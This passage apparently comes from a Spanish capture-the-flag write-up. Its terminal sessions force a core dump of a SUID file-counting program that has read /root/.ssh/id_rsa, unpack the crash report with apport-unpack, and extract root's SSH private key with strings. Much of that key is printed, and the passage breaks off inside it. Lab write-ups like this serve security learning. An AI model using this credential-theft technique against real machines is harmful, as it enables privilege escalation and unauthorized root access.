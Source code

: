 ```
dasith@secret:/opt$ ./count 
Enter source file/directory name: /root/.ssh/id_rsa

Total characters = 2602
Total words      = 45
Total lines      = 39
Save results a file? [y/N]: ^Z
[1]+  Stopped                 ./count
dasith@secret:/opt$ ps
    PID TTY          TIME CMD
   1237 pts/0    00:00:00 sh
   1238 pts/0    00:00:00 bash
   1576 pts/0    00:00:00 count
   1577 pts/0    00:00:00 ps
dasith@secret:/opt$ kill -ABRT 1576
dasith@secret:/opt$ fg
./count
Aborted (core dumped)
```

```
dasith@secret:/opt$ apport-unpack /var/crash/_opt_count.1000.crash /tmp/id_rsa
dasith@secret:/opt$ cd /tmp/id_rsa/
dasith@secret:/tmp/id_rsa$ ls
Architecture  CrashCounter  DistroRelease   ExecutableTimestamp  ProcCmdline  ProcEnviron  ProcStatus  Uname
CoreDump      Date          ExecutablePath  ProblemType          ProcCwd      ProcMaps     Signal      UserGroups
dasith@secret:/tmp/id_rsa$ strings CoreDump 
```

Dentro del archivo `CoreDump` se encuentra la `id_rsa` del usuario `root`

```
-----BEGIN OPENSSH PRIVATE KEY-----
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
```